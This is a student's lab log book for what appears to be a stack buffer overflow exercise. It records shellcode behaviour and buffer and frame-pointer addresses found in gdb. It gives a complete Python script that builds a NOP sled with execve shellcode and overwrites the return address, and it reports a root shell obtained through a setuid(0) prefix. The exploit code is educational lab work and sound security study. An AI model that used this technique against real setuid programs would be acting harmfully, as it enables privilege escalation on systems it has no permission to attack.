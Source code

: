 # Log Book 5

## Task 1

Both versions of the shellcode (32 and 64 bit) spawn a shell. We can run
commands on this shell as usual, but deleting characters doesn't given visual
feed. Deleting a char from the command line deletes it fromm the buffer, but it
remains on screen.

The environment of these shells includes both a PWD and OLDPWD:. It also
includes a SHLVL variable. No PATH environment variabl is defined.

![task 1 pt.1](./LOGBOOK5_img/task_1.png)

![task 1 pt.2](./LOGBOOK5_img/task_1_2.png)

## Task 2

There are 4 executable with slightly different configs (**DBUF_SIZE**):

- L1 - 100
- L2 - 160
- L3 - 200
- L4 - 10

We'll use L1 for task 3.

## Task 3

This executable was compiled for 32-bit and, using the instructions in the lab
pdf, we obtained the following information concerning the address of the buffer
and the frame pointer.

```
gdb-peda$ p $ebp
$1 = (void *) 0xffffcaa8

gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca3c
```

### How to attack

We'll place our shell code in a region above the return address location and
change the return address to point to that location.

### Stack pointer

The frame pointer is pointing to the address of the **last frame pointer.**. The
last frame pointer is a 32-bit value: 4 byte. With this, we know the stack
pointer, **sp**, is at `sp + 4 = 0xffffcaa8 + 4 = 0xffffcaac`.

### The attack

We have a 517 byte buffer to use. We'll start by filling it with **NOPs**, and
then place our shellcode at the end of this buffer. These **NOPs** will be
helpful later since we can just point the return address no anywhere in this
region and the shellcode will be eventually reached (less precision required).

We can calculate that the offset between the buffer address and the frame
pointer, `fp - buf_addr`, is **108**.

With all of these in mind, we can place the address of the start of the
shellcode as the return address: `buf_addr + start`.

When the function attempts to return, it will jump to the shellcode and spawn a
shell.

### Exploit code

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
fp = 0xffffcaa8
sp = fp + 4
buf_addr = 0xffffca3c

# buf_fp_offset
start = len(content) - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = buf_addr + start
offset = sp - buf_addr

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

### Results

We managed to spawn a root shell. By including the assembly code for the
`setuid(0)` system call before the shellcode, we were able to spawn a root shell
on dash, bypassing its mitigation.

![task 3](./LOGBOOK5_img/task_3.png)
